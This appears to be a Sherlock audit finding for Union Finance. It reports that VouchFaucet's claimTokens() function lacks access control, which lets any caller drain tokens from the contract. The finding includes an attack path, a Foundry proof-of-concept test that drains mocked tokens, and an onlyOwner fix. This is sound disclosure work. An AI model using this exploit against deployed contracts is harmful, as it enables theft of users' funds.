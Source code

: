 Real Burlap Alligator

High

# Malicious user can steal all the funds in the `VouchFaucet` contract

### Summary

A malicious user can steal all the tokens from the [`VouchFaucet`](https://github.com/sherlock-audit/2024-06-union-finance-update-2/blob/main/union-v2-contracts/contracts/peripheral/VouchFaucet.sol#L93), due to a flaw in the [`VouchFaucet::claimTokens()`](https://github.com/sherlock-audit/2024-06-union-finance-update-2/blob/main/union-v2-contracts/contracts/peripheral/VouchFaucet.sol#L93) function, which is designed to rescue the tokens sent to the contract itself.

### Root Cause

The [`VouchFaucet::claimTokens()`](https://github.com/sherlock-audit/2024-06-union-finance-update-2/blob/main/union-v2-contracts/contracts/peripheral/VouchFaucet.sol#L93) function contains a security flaw due to insufficient access control and lack of proper validation.

Key issues:

1. This function meant to be a used for recovering potentially lost tokens from the contract, lacks from a proper access control like an `onlyOwner` modifier. This omission allows any user to call it, rather than restricting access to the contract owner

2. There is no validation of the `amount` parameter specified by the use, allowing him so withdraw all the tokens in the contract.

3. The function fails to verify if the caller is entitled to the requested amount

This issues allow a malicious user to steal all the funds in the contract.

### Internal pre-conditions

1. Admin needs to set maxClaimable[token] to a number > 0.

### External pre-conditions

None

### Attack Path

1. Alice accidentally sent 10e18 tokens to the contract, likely intending to to something other with them but making a mistake in the transaction.

2. Bob, aware of a protocol flaw and anticipating such a mistake, noticed this transaction.

3. He exploited the vulnerability by calling the [`VouchFaucet::claimTokens()`](https://github.com/sherlock-audit/2024-06-union-finance-update-2/blob/main/union-v2-contracts/contracts/peripheral/VouchFaucet.sol#L93) with 10e18 tokens.

4. This action drained all the tokens, resulting in a loss for both Alice and the protocol.

Note:
>Check and run the coded PoC to understand better the vulnerability.

### Impact

Due to a flaw in the [`VouchFaucet::claimTokens()`](https://github.com/sherlock-audit/2024-06-union-finance-update-2/blob/main/union-v2-contracts/contracts/peripheral/VouchFaucet.sol#L93) function, anyone can steal all the tokens deposited in the contract. This vulnerability can be exploited by malicious actors, leading to significant financial losses.

### PoC

1. In order to run the test, go to the [`VouchFaucet.t.sol`](https://github.com/sherlock-audit/2024-06-union-finance-update-2/blob/main/union-v2-contracts/test/foundry/peripheral/VouchFaucet.t.sol) contract and replace its content with the one below:

```solidity
pragma solidity ^0.8.0;

import {TestWrapper} from "../TestWrapper.sol";
import {VouchFaucet} from "union-v2-contracts/peripheral/VouchFaucet.sol";

import "forge-std/console2.sol";

contract TestVouchFaucet is TestWrapper {
    VouchFaucet public vouchFaucet;

    uint256 public TRUST_AMOUNT = 10 * UNIT;
    address BOB = address(1);
    address ALICE = address(2);

    function setUp() public {
        deployMocks();
        vouchFaucet = new VouchFaucet(address(userManagerMock), TRUST_AMOUNT);

        erc20Mock.mint(ALICE, 100 ether);

        vm.startPrank(ALICE);
        erc20Mock.approve(address(vouchFaucet), type(uint256).max);
        vm.stopPrank();
    }

    function testConfig() public {
        assertEq(vouchFaucet.USER_MANAGER(), address(userManagerMock));
        assertEq(vouchFaucet.TRUST_AMOUNT(), TRUST_AMOUNT);
        assertEq(vouchFaucet.STAKING_TOKEN(), userManagerMock.stakingToken());
    }

    function testSetMaxClaimable(address token, uint256 amount) public {
        vouchFaucet.setMaxClaimable(token, amount);
        assertEq(vouchFaucet.maxClaimable(token), amount);
    }

    function testMaliciousUserCanClaimAllTheTokensInTheContract() public {
        setUp();

        //ALICE transfers tokens to the contract
        vm.startPrank(ALICE);
        erc20Mock.transfer(address(vouchFaucet), 10 ether);

        uint256 contractBalance = erc20Mock.balanceOf(address(vouchFaucet));
        assertEq(contractBalance, 10 ether);

        vm.stopPrank();

        vm.startPrank(BOB);

        uint256 bobBalanceBefore = erc20Mock.balanceOf(BOB);
        assertEq(bobBalanceBefore, 0);

        //BOB calls claimTokens() and gets all the tokens in the contract
        vouchFaucet.claimTokens(address(erc20Mock), 10 ether);

        uint256 bobBalanceAfter = erc20Mock.balanceOf(BOB);
        assertEq(bobBalanceAfter, 10 ether);
    }

    function testCannotSetMaxClaimableNonAdmin(address token, uint256 amount) public {
        vm.prank(address(1234));
        vm.expectRevert("Ownable: caller is not the owner");
        vouchFaucet.setMaxClaimable(token, amount);
    }

    function testClaimVouch() public {
        vouchFaucet.claimVouch();
        uint256 trust = userManagerMock.trust(address(vouchFaucet), address(this));
        assertEq(trust, vouchFaucet.TRUST_AMOUNT());
    }

    function testStake() public {
        erc20Mock.mint(address(vouchFaucet), 1 * UNIT);
        assertEq(userManagerMock.balances(address(vouchFaucet)), 0);
        vouchFaucet.stake();
        assertEq(userManagerMock.balances(address(vouchFaucet)), 1 * UNIT);
    }

    function testExit() public {
        erc20Mock.mint(address(vouchFaucet), 1 * UNIT);
        assertEq(userManagerMock.balances(address(vouchFaucet)), 0);
        vouchFaucet.stake();
        assertEq(userManagerMock.balances(address(vouchFaucet)), 1 * UNIT);
        vouchFaucet.exit();
        assertEq(userManagerMock.balances(address(vouchFaucet)), 0);
    }

    function testTransferERC20(address to, uint256 amount) public {
        vm.assume(
            to != address(0) && to != address(this) && to != address(vouchFaucet) && address(vouchFaucet) != address(0)
        );

        erc20Mock.mint(address(vouchFaucet), amount);
        uint256 balBefore = erc20Mock.balanceOf(address(vouchFaucet));
        vouchFaucet.transferERC20(address(erc20Mock), to, amount);
        uint256 balAfter = erc20Mock.balanceOf(address(vouchFaucet));
        assertEq(balBefore - balAfter, amount);
        assertEq(erc20Mock.balanceOf(to), amount);
    }
}

```

2. Run the coded PoC with the following command:
`forge test --match-test testMaliciousUserCanClaimAllTheTokensInTheContract -vvvv`

### Mitigation

Add a proper access control to the function like an `onlyOwner` modifier